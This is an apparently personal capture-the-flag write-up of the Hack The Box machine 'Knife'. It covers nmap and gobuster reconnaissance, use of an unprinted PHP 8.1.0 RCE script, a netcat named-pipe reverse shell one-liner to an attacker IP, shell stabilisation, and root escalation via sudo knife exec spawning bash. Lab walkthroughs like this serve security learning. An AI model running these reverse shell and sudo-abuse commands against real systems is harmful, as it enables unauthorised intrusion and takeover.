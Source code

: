 # knife HTB , 27 JUL 2021
![1_qkA2OJOWUvxXtoCGclOUbw](https://user-images.githubusercontent.com/67979878/127178999-d2c484e6-bc69-4cf3-bf1d-c40443fa8fc9.png)



SCANNING
========
basic scanning
---------------
$nmap -sV -v -sC -oN nmap/intial 10.10.10.242

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
full scanning
-------------
$ nmap -sV -v -oN -p- nmap/all 10.10.10.242 

-no more ports :(



ENUMRATION
===========

$ gobuster dir -u "http://10.10.10.242/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster.txt



-no results which is weird :( .



### taking a look at wappalayzer : php 8.1.0
#### by searching for it found a possible rce and it is verified .


running script we got a shell as "james"



## Reverse shell :
-on my side :

$bash

$nc -lvp 1234

-on target :

$rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.92 1234 >/tmp/f


## Stable shell :

$python3 -c "import pty;pty.spawn('/bin/bash')"

ctrl+z

$stty raw -echo

$fg

james@machine:~$export TERM=xterm 




privilege escalation 
--------------------

$sudo -l 

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

show knife options : 
"the interesting ones :"



```
options :    -e, --editor EDITOR              Set the editor to use for interactive commands.

Available subcommands :

knife acl add MEMBER_TYPE MEMBER_NAME OBJECT_TYPE OBJECT_NAME PERMS
knife group add MEMBER_TYPE MEMBER_NAME GROUP_NAME
knife group list
knife user create USERNAME DISPLAY_NAME FIRST_NAME LAST_NAME EMAIL PASSWORD (options)
sudo knife ssh QUERY COMMAND -i -v




```

$file /usr/bin/knife is a s symbolic reference for an opt that can run ruby script .


$sudo knife exec -e "system('/bin/bash')"

type the script :

system('/bin/bash')

ctrl+D

#rooted .
